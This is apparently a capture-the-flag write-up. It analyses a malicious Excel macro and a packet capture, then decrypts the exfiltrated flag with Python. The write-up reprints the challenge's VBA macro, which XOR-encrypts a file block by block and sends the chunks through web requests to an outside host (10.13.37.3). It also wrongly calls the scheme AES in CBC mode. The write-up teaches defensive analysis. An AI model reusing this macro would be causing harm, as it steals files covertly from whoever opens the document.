

# Challenge 59 - Macro Economics
## The 2 Provided Files
- exfil.pcap, we can use Wireshark to open the file to reveal request details
- important_spreadsheet.xlsm, an Excel with VBA code inside

## The VBA code
- sendFile is the main function, by inspecting it, it is a loop to process a plaintext by blocks of 8 characters at a time with some cipher encryption
- the encryption Cipher function used XOR operation, suggesting it's like an AES
- Considering the reuse of the string at cell A1 for each loop, we can find it's AES (CBC mode)

        Function sendFile(b() As Byte) As String
          Dim tmpStr As String
          Dim midStr As String
          Dim out As String
          Dim urlStr As String
          Dim code As String
          Dim i
          urlStr = "URL;http://10.13.37.3/"
          req (urlStr)     'initialization to update cell A1 as "some" processed value
          code = Range("A1").Value
          tmpStr = StrConv(b(), vbUnicode)
          For i = 1 To 256 Step 8
            midStr = Mid(tmpStr, i, 8)    ' process the plain text by 8 characters a time, like a block
            out = Cipher(midStr, code)    ' do XOR operation to the block and "code"
            out = ByteArrayToHexStr(StrConv(out, vbFromUnicode))
            urlStr = "URL;http://10.13.37.3/?" & CStr(out)    ' use the XOR-ed text to send request, to get another "processed value" at A1
            req (urlStr)
            code = Range("A1").Value
          Next i
          sendFile = tmpStr
        End Function

        Function req(url As String)
          With ActiveSheet.QueryTables.Add(Connection:=url, Destination:=Range("A1"))
            .PostText = ""
            .PreserveFormatting = True
            .RefreshOnFileOpen = False
            .BackgroundQuery = False
            .RefreshStyle = xlOverwriteCells
            .WebSelectionType = xlEntirePage
            .WebPreFormattedTextToColumns = True
            .Refresh BackgroundQuery:=False
            .WorkbookConnection.Delete
            End With
        End Function

        Public Function Cipher(Text As String, Key As String) As String
          Dim bText() As Byte
          Dim bKey() As Byte
          Dim TextUB As Long
          Dim KeyUB As Long
          Dim TextPos As Long
          Dim KeyPos As Long
          
          bText = StrConv(Text, vbFromUnicode)
          bKey = StrConv(Key, vbFromUnicode)
          TextUB = UBound(bText)
          KeyUB = UBound(bKey)
          For TextPos = 0 To TextUB
            bText(TextPos) = bText(TextPos) Xor bKey(KeyPos)    ' XOR operation of each character
            If KeyPos < KeyUB Then
              KeyPos = KeyPos + 1
            Else
              KeyPos = 0
            End If
          Next TextPos
          Cipher = StrConv(bText, vbUnicode)
        End Function

## Flow Diagram with AES (CBC mode) Demonstration
- Red: excel corresponding function
- Green: what the request does for each block of plaintext
- Brown: To solve the plaintext, simply do (Param[i+1] XOR Response[i])
- Note: the response actually have 16 bytes instead of 8 bytes, but it doesn't matter we just take the first 8

## Sample Python Code
    from pwn import xor
    param = [
        "184D5825262C6336",
        "6426435B4B626833",
        "045A125516100301",
        "10161F05120C0B0F",
        "454D53590B5D0507",
        "5702161C19004442",
        "034646154F0F5259",
        "52561D101614081C",
        "1156516D60641047",
        "1D150147420D564D",
        "03091A194B5D0315",
        "574E190C124F141B",
        "0557144603171757",
        "1D575C071208191C",
        "0902421A0844411D",
        "54074E0D004B565E",
        "1803510A0413104B",
        "667F71510155115B",
        "16530C071C561A49",
        "6D791C5A0E044C09",
        "5D0C402754070412",
        "00552D0A0F064A04",
        "0B113F7F2608575A",
        "0800134B02180606",
        "024306065E142118",
        "5547500509415A05",
        "4C7F38320C041A11",
        "5E411917570A050F",
        "165A563A5C001E15",
        "5D0D4F1F53011D19",
        "61701B18533F2836",
        "233C23605A41167E",
    ]
    response = [
        b"7bxvco1sj8gwpr92",
        b"0uctdhbg9rzyvq57",
        b"l3aupyodmehvzfk6",
        b"0upkfmbanov57z9x",
        b"6m2yx8fu9qd7kr4c",
        b"2v6hqa0b9t3w5fjd",
        b"n35aom7yfqzd04iu",
        b"93md6gizvlypw1ox",
        b"txqgj3u5d9woz7na",
        b"x5h3by9m0cre42k7",
        b"ehvuk4majq2tg10c",
        b"8nmdwociyse0lab2",
        b"j9sfkvy3pwqxoeah",
        b"nw5s2kvijzqref9c",
        b"efbxmd4n5i8rkgya",
        b"1cnko9v30dp2rexf",
        b"qp5oawce3uhvml21",
        b"lu94s012goyt8iba",
        b"bsohq3igya5dr42n",
        b"gsz6oc7m9583krfi",
        b"mb4xgiep72kcs1hv",
        b"l0rgne84jszcqxu6",
        b"xl5uba3zshrcdmjn",
        b"qofkayrevwml9gdx",
        b"jcora4up78kbqs5t",
        b"43prh2zl0g9djqos",
        b"8u2yiaj1pqwneb6s",
        b"759d2iwjhyqpl1vb",
        b"btvq9en5wgy1r4dx",
        b"4yol2gx7mhijzur0",
        b"kz47slmu1cdrfhi6",
        b"qyw3zn9tmarix507",
        b"vmbcl8rnxked2zf9",
    ]
    res = b''
    for p, r in zip(param, response):
        res += xor(bytes.fromhex(p), r[:8])
    print(res)
    # b'// SECRETS //\n\nThis file contains a secret that must be kept safe. \n\nWere it to fall into the wrong hands it could be used for misdeeds.\n\nHere it comes.\n\nflag{d0nt_3nable_macr0s}\n\nDid you catch it? That was it\n\nKeep it secret. Keep it safe.\n\n// SECRETS //\n'